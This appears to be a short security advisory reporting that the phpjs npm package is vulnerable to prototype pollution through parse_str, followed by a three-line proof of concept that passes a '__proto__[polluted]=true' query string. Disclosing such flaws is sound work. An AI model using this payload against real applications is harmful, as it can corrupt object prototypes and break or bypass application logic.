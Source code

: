 # Description
```phpjs``` is a community built PHP binding in JavaScript.
This package is vulnerable to ```Prototype Pollution``` via ```parse_str```. 

# Proof of Concept

```
const phpjs = require('phpjs');
phpjs.parse_str("__proto__[polluted]=true",{}); 
console.log(polluted);
```
